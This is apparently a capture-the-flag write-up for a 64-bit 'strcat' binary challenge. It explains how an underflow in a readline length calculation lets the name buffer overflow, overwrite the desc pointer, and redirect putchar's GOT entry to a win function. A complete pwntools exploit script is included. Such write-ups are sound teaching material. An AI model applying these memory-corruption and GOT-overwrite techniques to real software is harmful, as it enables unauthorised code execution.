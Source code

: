 # Writeup for Strcat challenge

We are given a 64-bit binary with ASLR (but no PIE). Looking through the functionality of the binary, it asks us for a *name*, a *desc*(which was a malloc-ed chunk of 0x20 size) and then through a menu prompt, let's us concatenate stuff to this *name* buffer (which has a `maxlen` of `0x80` btw) and to the *desc* chunk. There is also a *win* fucntion which simply prints the flag on the screen. So, our objective is simply to call the win function.

One obvious vulnerability was a format string vulnerability in the `main` function where `printf(name)` and `printf(desc)` are used. Now, since these buffers are in the BSS and heap section, so a format string was somewhat tricky(You can try that though).

![alt text](readline_disasm.png "Title")

![alt text](main_disasm.png "Title")

 Another (not so obvious) vulnerability was in the `readline` function which calculated the length of the string as `len = strlen(string)` and returned the value `len - 1` . Now in the `main` function, when we concatenate something to the *name* buffer, `maxlen` is updated to
`maxlen = maxlen - readline(name)`.
Oh, and one thing to remember, the *desc* pointer was located just **below** the *name* buffer. So, with an overflow in the buffer we could overwrite *desc* pointer and then edit this modified pointer through the menu. How do we get this overflow?



If we send `\x00` as the name, then `strlen(name)` would return `0x0` and the readline function would actually return `-1`, this would mean `maxlen = maxlen - (-1)` which effectively overflows our name buffer once, repeat this method to increase the `maxlen` buffer to say `0x90`. Now, we can simply overwrite the *desc* poiner to point it to a GOT function (I chose the `putchar@GOT` for this) and then with the help of *edit desc* option, overwrite this GOT entry to point to *win* function.


The entire exploit can then be written as:

```python
#!/usr/bin/python

from pwn import *

'''
[*]strcat'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

'''

local = False

if '-r' not in sys.argv:
    local = True

p = process('./strcat')
e = ELF('./strcat')


def init(name, desc):
    p.sendafter('Name:', name)
    p.sendafter('Desc:', desc)

def add_to_name(name):
    p.sendlineafter('>', str(1))
    p.sendafter('Name:', name)

def edit_desc(desc):
    p.sendlineafter('>', str(2))
    p.sendafter('Desc:', desc)

def viewall():
    p.sendlineafter('>', str(3))
    data = p.recvuntil('Menu',drop=True)


#Trigger the bug discussed above by sending '\x00' as the name
name_init = '\x00'
desc_init = "AAAAAAA"
init(name_init, desc_init)

# Continuosly increase maxlen to cover the desc pointer by sending null byte
for i in xrange(16):
    add_to_name('\x00')


# Finally overwriting the desc pointer with the GOT entry for putchar
payload = "A"*0x80 + '\x20\x20\x60\x20'
add_to_name(payload)

# Overwrite putchar@GOT with win function
payload = p64(e.symbols['win'])
edit_desc(payload)

# Use the print it all function in menu and you'll get the flag

p.interactive()


```
